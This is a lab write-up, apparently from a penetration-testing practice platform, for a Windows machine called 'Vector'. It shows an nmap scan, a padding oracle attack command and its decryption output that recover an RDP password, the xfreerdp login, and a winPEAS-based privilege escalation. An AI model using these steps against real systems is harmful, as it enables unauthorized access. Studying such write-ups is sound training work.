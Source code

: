 # Vector

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.233.119
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 17:12 +08
Nmap scan report for 192.168.233.119
Host is up (0.17s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2290/tcp open  sonus-logging
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

### Web Enum

Port 80 reveals a basic login page:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Port 2290 was also a HTTP port, and it returned something simple:

<figure><img src="../../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

C? When we view the page source, there's also this part here:

```markup
</div>
	<span id="MyLabel">ERROR: missing parameter "<b>c</b>"</span>
	<!--
		AES-256-CBC-PKCS7 ciphertext: 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488
		
		Victor's TODO: Need to add authentication eventually..
	-->
</form>
```

There's a commented ciphertext, and there's also something which takes a parameter. We can try putting this ciphertext as the parameter requested.&#x20;

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

If we remove some characters, then it loads something else.

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

That's literally all of the enumeration that is possible to do.

### Paddling Oracle Attack --> RDP&#x20;

The first thing we can note is the AES mode used, which is CBC. This mode is insecure against a paddle oracle attack. For this application, it appears that when a parameter `c` (short for ciphertext) is submitted, we get a '1' if it has valid padding, else we get a '0'. This explains why the ciphertext, when submitted returns a '1'. This confirms that we need to use this attack to get the ciphertext out.&#x20;

Here's a full video explaining the paddle oracle attack (which I needed to know for my exam lol):

{% embed url="https://www.youtube.com/watch?v=4EgD4PEatA8" %}

Of course, to exploit this we will leverage on automated methods since it involves brute forcing each byte of the ciphertext. Tools like `padbuster` also work if configured properly, but I opted to use the script from this repo since it was easier to configure:

{% embed url="https://github.com/mpgn/Padding-oracle-attack" %}

{% code overflow="wrap" %}
```bash
$ python3 exploit.py -c 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488 -l 16 --host 192.168.233.119:2290 -u /?c= --error '<span id="MyLabel">0</span>' --method GET
```
{% endcode %}

This would brute force every single character out. Here's the output of it:

```
[+] Search value block :  1 

[+] Found 1 bytes : 04

[+] Found 2 bytes : 0404

[+] Found 3 bytes : 040404

[+] Found 4 bytes : 04040404

[+] Found 5 bytes : 3704040404

[+] Found 6 bytes : 743704040404

[+] Found 7 bytes : 61743704040404

[+] Found 8 bytes : 5661743704040404

[+] Found 9 bytes : 655661743704040404

[+] Found 10 bytes : 6f655661743704040404

[+] Found 11 bytes : 6c6f655661743704040404

[+] Found 12 bytes : 416c6f655661743704040404

[+] Found 13 bytes : 6d416c6f655661743704040404

[+] Found 14 bytes : 726d416c6f655661743704040404

[+] Found 15 bytes : 6f726d416c6f655661743704040404

[+] Found 16 bytes : 576f726d416c6f655661743704040404


[+] Decrypted value (HEX): 576F726D416C6F655661743704040404
[+] Decrypted value (ASCII): WormAloeVat7
```

We get a password! SSH is not open on the machine, but RDP is. `xfreerdp` can be used to connect to it.&#x20;

```
$ xfreerdp /u:victor /p:WormAloeVat7 /v:192.168.233.119
```

<figure><img src="../../../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### WinPEAS --> Admin Shell

I downloaded and ran `winPEASx64.exe` on the machine, and found this output:

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

It's pretty trivial to get an administrator shell from this.&#x20;

<figure><img src="../../../.gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>

Rooted!
